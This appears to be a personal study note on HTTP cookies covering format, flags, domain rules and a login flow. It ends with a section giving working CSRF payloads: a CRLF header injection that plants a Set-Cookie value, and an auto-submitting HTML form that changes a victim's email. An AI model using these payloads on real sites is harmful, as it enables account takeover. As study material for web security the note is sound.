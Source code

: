 ### General Notes

Created to make [[HTTP]] [[Protocol]] stateful.
- They are textual information installed by a website into the Cookie Jar of the **browser**.
- Storing data on the client side instead of the server side ([[Sessions]]).

> Cookie Jar is storage space where web browser stores cookies.

Can be viewed in JavaScript using `document.cookie` through the DOM, or the Document Object Model.

---
### Cookie Format

Servers can set cookie via the `Set-Cookie` [[HTTP]] header in a response message.
Cookies contain the following data:
* **Cookie Content**: Text Key-Value pairs that contain data.
* **Expiration Date**: The data when the cookie is no longer to be used, or not to be sent by the browser to the server.
* **Path**: sends the cookies to all subsequent requests to this path and everything under it.
* **Domain**: the scope of the cookie, or which domains and subdomains it has access to.
* `HTTPOnly` Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* `Secure` Flag: Cookies are only sent over [[HTTPS]].

##### Cookie Policy

Cookies are sent to the valid domain and path, and only when they are not expired.
- They also are managed according to the flags that are set. 
- Cookies are sent to the subdomains of that domain as well.

> The **Path** specifies the folder that the cookie is sent to in the **domain**. If the path is empty, it is sent to the whole domain.

If **domain** is not set, the `Host-only` flag is set, and the cookie is only sent to the exact hostname of the request. 
- The domain becomes set to the hostname.

---
### Cookie Protocol

Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a *stateful* connection to the server, meaning that all subsequent requests don't need authentication again.

---
### Cookie Domain

A cookie with a domain value specified is only sent to the target with the same domain value.
- A cookie with a domain value different from the target but is a suffix of the target domain then it is also sent.

Higher level subdomains cannot set cookies for lower level subdomains.
- But lower level subdomains can set cookies for higher level subdomains.

> Cookie with `host-only` flag set to true is one that does not have a domain value. Sent only to target domain that set it.

---
### Modifying Cookies for [[Cross Site Request Forgery (CSRF)]]

- A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

- To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

- This loads the page that sets the cookie, then since it isn't an image, the `onerror` attribute is fired submitting the form.
``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
